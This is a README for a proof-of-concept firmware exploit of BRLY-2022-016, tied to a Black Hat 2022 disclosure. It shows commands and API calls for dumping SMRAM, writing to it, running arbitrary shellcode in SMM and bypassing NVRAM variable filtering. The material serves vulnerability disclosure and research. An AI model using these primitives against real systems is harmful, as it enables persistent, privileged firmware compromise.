 ## Description

PoC for BRLY-2022-016 (CVE-2022-33209, CVE-2022-40250) vulnerability that demonstrates SMM_Code_Chk_En bypassing using ROP/JOP technique and provides primitives for SMRAM reading/writing and executing arbitrary code in SMM.

BRLY-2022-016 vulnerability was disclosed as part of the BHUS 2022 presentation.
* Slides: https://i.blackhat.com/USA-22/Wednesday/US-22-Matrosov-Breaking-Firmware-Trust-From-Pre-EFI.pdf
* Binarly advisory: https://www.binarly.io/advisories/BRLY-2022-016/index.html

## Usage

### Commands

```
Usage: brly_2022_016.py [OPTIONS] COMMAND [ARGS]...

Options:
  --help  Show this message and exit.

Commands:
  smm-exec    Execute code in SMM.
  smram-dump  Dump SMRAM contents to file.
```

### smram-dump

```
$ sudo ./brly_2022_016.py smram-dump smram.bin
...
Reading SMRAM from address 0x63ffd000
Reading SMRAM from address 0x63ffe000
Reading SMRAM from address 0x63fff000
Dump of SMRAM saved in smram.bin
```

### smm-exec

```
$ cat test.nasm
use64

_Test:
    mov rbx, 0x594c5242 ; BRLY
    mov rax, 0x5a000000
    mov [rax], rbx
    ret

$ sudo ./brly_2022_016.py smm-exec test.nasm
```

### Using the SMRAM read and write primitive via API

```python
poc = Poc()
poc.copy_mem(dst, src, size) # where dst and src can point to SMRAM
```

### Dump SMRAM via API

```python
poc = Poc()
poc.smram_dump("smram.bin")
```

### Using the SMM code execution primitive via API

```python
poc = Poc()
poc.exec_shellcode_smm(shellcode)
```

### Using SmmSetVariable() via API

```python
poc = Poc()
poc.smm_set_variable(variable_name, vendor_guid, attributes, data)
```

### Modify Setup variable via API (as an example of filtering bypass in NvramSmm)

```python
poc = Poc()
poc.modify_setup_data(data, backup_old=True)
```

A demo of this functionality was shown during BHUS 2022:

![modify_setup_data](https://raw.githubusercontent.com/binarly-io/Research_Publications/main/BHUS_2022/demos/BRLY-2022-016.gif)
